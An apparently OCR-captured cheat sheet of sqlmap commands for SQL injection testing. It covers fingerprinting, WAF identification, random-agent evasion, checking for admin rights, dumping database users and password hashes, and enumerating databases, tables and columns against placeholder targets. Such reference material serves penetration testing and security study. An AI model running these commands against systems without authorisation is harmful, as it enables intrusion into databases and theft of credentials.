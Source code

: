 ./sqlmap.py --url="&lt;url&gt;" --data="&lt;post-data&gt;" --banner

### \# Parse request data and test \| request data can be obtained with burp

./sqlmap.py -u &lt;request-file&gt; &lt;options&gt;

### \# Use random agent

./sqlmap.py -u &lt;request-file&gt; --random-agent

### \# Fingerprint \| much more information than banner

./sqlmap.py -u &lt;request-file&gt; --fingerprint

### \# Identify WAF

./sqlmap.py -u &lt;request-file&gt; --check-waf/--identify

### \# Get database username, name, and hostname

./sqlmap.py -u &lt;request-file&gt; --current-user --current-db --hostname

### \# Check if user is a database admin

./sqlmap.py -u &lt;request-file&gt; --is-dba

### \# Get database users and password hashes

./sqlmap.py -u &lt;request-file&gt; --users --passwords

### \# Enumerate databases

./sqlmap.py -u &lt;request-file&gt; --dbs

### \# List tables for one database

./sqlmap.py -u &lt;request-file&gt; -D &lt;db-name&gt; --tables

### \# Other database commands

./sqlmap.py -u &lt;request-file&gt; -D &lt;db-name&gt; --columns

 --schema

 --count

### \# Enumeration flags

./sqlmap.py -u &lt;request-file&gt; -D &lt;db-name&gt;

 -T &lt;tbl-name&gt;

 -C &lt;col-name&gt;

 -U &lt;user-name&gt;

